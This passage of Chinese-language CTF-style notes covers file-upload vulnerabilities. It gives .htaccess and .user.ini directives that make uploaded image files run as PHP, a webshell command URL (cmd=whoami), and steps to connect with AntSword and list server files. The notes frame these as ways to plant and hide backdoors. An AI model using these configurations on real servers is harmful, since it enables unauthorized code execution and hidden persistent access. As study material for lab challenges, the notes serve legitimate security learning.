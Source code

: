 http://localhost:8003/index.jsp?pass=password&cmd=whoami

### 2、 .htaccess文件解析漏洞

php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件。这里我们可以把.user.ini看作是用户自定义的一个php.ini，并且可以利用这个文件来构造后门和隐藏后门。

.user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。

第一种、虽然好用，但是会误伤其他正常文件，容易被发现

> <IfModule mime_module>
> AddHandler php5-script .gif          #在当前目录下，只针对gif文件会解析成Php代码执行
> SetHandler application/x-httpd-php    #在当前目录下，所有文件都会被解析成php代码执行
> </IfModule>

第二种、精确控制能被解析成php代码的文件，不容易被发现

> <FilesMatch "evil.gif">
> SetHandler application/x-httpd-php   #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> AddHandler php5-script .gif          #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> </FilesMatch>

第三种、同1没太大区别

> <IfModule mime_module>
> AddType application/x-httpd-php .gif
> </IfModule>

上传.htaccess，需要将文件格式改为 image/jpeg

![image-20240325201351205](./././././././././%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240325201351205-1729496793741.png)

![image-20240325201413233](./././././././././%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240325201413233-1729496793741.png)

上传.htaccess中识别的文件

蚁剑连接，连接的是上传文件所在的位置 

例：http://789b3aeb-6590-4b6a-89bb-17c389233df7.node4.buuoj.cn:81/upload/ff435120073c8f309f3001ca17632671/flag.jpg

对.htacccess进行过滤时

### 3、 .user.ini(局限在当前目录下有php文件)

GIF89a 

auto_prepend_file=b.gif //文件名为之前上传的一句话木马文件

### 特殊情况

会出现蚁剑连接后没有权限读取文件的情况，使用刚才上传的一句话木马进行文件读取

print_r(scandir('.'));读取当前文件夹下的所有文件

